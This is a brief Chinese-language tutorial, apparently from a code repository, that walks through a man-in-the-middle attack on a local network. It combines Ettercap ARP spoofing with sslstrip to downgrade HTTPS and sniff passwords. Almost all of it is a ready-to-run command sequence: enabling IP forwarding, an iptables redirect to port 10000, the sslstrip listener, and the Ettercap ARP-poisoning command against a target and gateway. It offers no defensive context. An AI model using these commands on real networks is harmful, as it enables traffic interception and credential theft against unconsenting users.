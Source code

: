 ## Ettercap结合sslstrip对ssl/https进行攻击  
Ettercap是一个非常强大的嗅探欺骗工具；在以往的ettercap的使用过程中，我们大多用来嗅探http，ftp，和一些加密比较简单的邮箱等的密码，
对于新型的ssl/https等的加密协议就显得不是太完美；这里我们使用一款专门针对ssl/https加密协议的工具配合Ettercap进行局域网嗅探欺骗：
sslstrip。

0x01、开启转发：
```bash
echo "1">/proc/sys/net/ipv4/ip_forward
```
0x02、iptables过滤数据包
```bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
```
0x03、监听转发端口
```bash
sslstrip -l 10000 
```
0x04、arp嗅探
```bash
ettercap -T -q -i eth0 -M arp:remote /目标地址/ /网关地址/
```